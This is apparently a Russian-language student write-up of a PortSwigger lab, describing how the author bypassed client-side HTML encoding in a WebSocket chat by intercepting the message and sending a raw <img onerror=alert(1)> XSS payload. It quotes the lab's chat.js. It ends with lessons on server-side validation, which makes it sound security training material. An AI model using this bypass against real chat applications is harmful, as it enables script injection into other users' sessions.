






лаба https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities

есть чат, нужно вызвать алерт через сообщение

-------

есть вот такой чат

пробовал два таких базовый пейлоада
они не срабатывают при обновлении




-------

открыл код страницы




вот так подставляет смс в страницу динамически
```html
<tr class="message"><th>You:</th>

<td>&lt;img src=1 onerror='alert(1)'&gt;</td></tr>

<tr class="message"><th>You:</th>

<td>&lt;img src=1 onerror=alert(1)&gt;</td></tr>

------

попробовал обойти тег вот так 
</td><td>

но не вышло:

<tr class="message"><th>You:</th>

<td>&lt;/td&gt;&lt;img src=1 onerror=alert(1)&gt;&lt;td&gt;</td></tr>

подставляется так, что в коде страницы я вижу кодированные символы, но в самом чате я вижу целиком весь пейлоад в смс, но когда копирую html с кода страницы сайта - то пейлоад копируется в кодированном виде
```

видно, как символы `<  > ` кодируются в `&gt;`


и если посмотреть на то, как отправляются сами сообщения в веб сокекет, то видно , что они отправляются уже в закодированном виде! то есть, кодировка происходит на клиенте!!
и, возможно, если отправить пакет вручную, то возможно , получиться обойти эташ очистки пользовательского ввода




-----

потом на странице чата нашел файл js
```js
<script src="/resources/js/chat.js"></script>
```

открыл его

```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 3561

(function () {
    var chatForm = document.getElementById("chatForm");
    var messageBox = document.getElementById("message-box");
    var webSocket = openWebSocket();

    messageBox.addEventListener("keydown", function (e) {
        if (e.key === "Enter" && !e.shiftKey) {
            e.preventDefault();
            sendMessage(new FormData(chatForm));
            chatForm.reset();
        }
    });

    chatForm.addEventListener("submit", function (e) {
        e.preventDefault();
        sendMessage(new FormData(this));
        this.reset();
    });

    function writeMessage(className, user, content) {
        var row = document.createElement("tr");
        row.className = className

        var userCell = document.createElement("th");
        var contentCell = document.createElement("td");
        userCell.innerHTML = user;
        contentCell.innerHTML = (typeof window.renderChatMessage === "function") ? window.renderChatMessage(content) : content;

        row.appendChild(userCell);
        row.appendChild(contentCell);
        document.getElementById("chat-area").appendChild(row);
    }

    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        openWebSocket().then(ws => ws.send(JSON.stringify(object)));
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }

    function openWebSocket() {
       return new Promise(res => {
            if (webSocket) {
                res(webSocket);
                return;
            }

            let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

            newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }

            newWebSocket.onmessage = function (evt) {
                var message = evt.data;

                if (message === "TYPING") {
                    writeMessage("typing", "", "[typing...]")
                } else {
                    var messageJson = JSON.parse(message);
                    if (messageJson && messageJson['user'] !== "CONNECTED") {
                        Array.from(document.getElementsByClassName("system")).forEach(function (element) {
                            element.parentNode.removeChild(element);
                        });
                    }
                    Array.from(document.getElementsByClassName("typing")).forEach(function (element) {
                        element.parentNode.removeChild(element);
                    });

                    if (messageJson['user'] && messageJson['content']) {
                        writeMessage("message", messageJson['user'] + ":", messageJson['content'])
                    } else if (messageJson['error']) {
                        writeMessage('message', "Error:", messageJson['error']);
                    }
                }
            };

            newWebSocket.onclose = function (evt) {
                webSocket = undefined;
                writeMessage("message", "System:", "--- Disconnected ---");
            };
        });
    }
})();


```

и вижу там функцию которая фильтрует пользовательский ввод
```js
function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
```

---------


> и если посмотреть на то, как отправляются сами сообщения в веб сокекет, то видно , что они отправляются уже в закодированном виде! то есть, кодировка происходит на клиенте!!
   и, возможно, если отправить пакет вручную, то возможно , получиться обойти эташ очистки пользовательского ввода

пробую теже пейлоады отправить, но просто через веб сокет вручную

------

проще всего - это включить перехват, и перехватив сообщение, поставил в него чистый пейлоад






и все сработало! алерт вызвался
!!!
лаба решена!


и уже вот так полноценно скрипт подставился в html страницы




-------


#### выводы

нельзя полагаться только на проверку на стороне клиента, так как ее можно обойти, `например - отправить запрос напрямую через WebSocket, минуя браузерный код`

должно быть несколько уровней проверки данных пользовательского ввода!

вообще, все что передается через ws должно быть оч хорошо проверено!

-----------